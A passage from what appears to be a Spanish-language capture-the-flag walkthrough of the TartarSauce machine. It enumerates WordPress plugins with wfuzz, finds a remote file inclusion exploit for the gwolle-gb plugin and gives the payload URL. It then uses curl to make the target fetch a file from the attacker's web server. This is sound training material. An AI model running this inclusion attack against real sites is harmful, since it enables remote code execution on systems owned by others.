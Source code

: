 ## Vulnerability Assessment {-}

### Buscando vulnerabilidades {-}

Muchas vulnerabilidades en Wordpress se encuentran buscando los plugins installados. Para enumerrar los plugins installados
en wordpress, se puede fuzzear la web con el uso de un diccionario especial de SecList.

```bash
git clone https://github.com/danielmiessler/SecLists
cd SecLists
cd Discovery/Web-Content/CMS/
```

Con **WFUZZ** utilizamos el dictionario de SecList llamado `wp-plugins.fuzz.txt`.

```bash
wfuzz -c -t 200 --hc=404 -w wp-plugins.fuzz.txt http://10.10.10.88/webservices/wp/FUZZ
```

Encontramos un plugin que se llama `gwolle-gb`

Por la web intentamos ver `http://tartartsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/` y no se ve nada. Pero como no nos
da un NotFound quiere decir que existe. Vamos buscando a ver si encontramos un exploit para este plugin


### Buscando un exploit con searchslpoit {-}

```bash
searchsploit gwolle
```

Aqui vemos que existe un exploit para Gwolle que no permitte hacer Remote File Inclusion. Analizamos el exploit para saber lo que se puede hacer.

```bash
searchsploit -x 38861
```

Podemos ver que un parametro GET llamado **abspath** que no esta sanitizado correctamente antes de estar utilizado por la funccion require de PHP.
Un attackante podria incluir de manera remota un fichero llamado `wp-load.php` para ejecutar su contenido el la web vulnerable. Ademas el exploit 
nos muestra sobre que routa tendriamos que ejecutar un methodo get para ejecutar el commando

`http://[host]/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://[hackers_website]`

La idea aqui seria de comprobar si esto es verdad.

### Comprobamos la effectividad del exploit {-}

1. Montamos un servidor web en la maquina de attackante

    ```bash
    python3 -m http.server
    ```

1. Lanzamos una peticion GET sobre el url que el exploit nos da

    ```bash
    curl -s -X GET "http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.8/"
    ```

Aqui podemos comprobar que la maquina victima no esta enviando una peticion get a nuestro servidor web creado en python. A demas se puede ver que
la maquina victima esta intentando buscar un fichero `wp-load.php` que por el momento no existe.

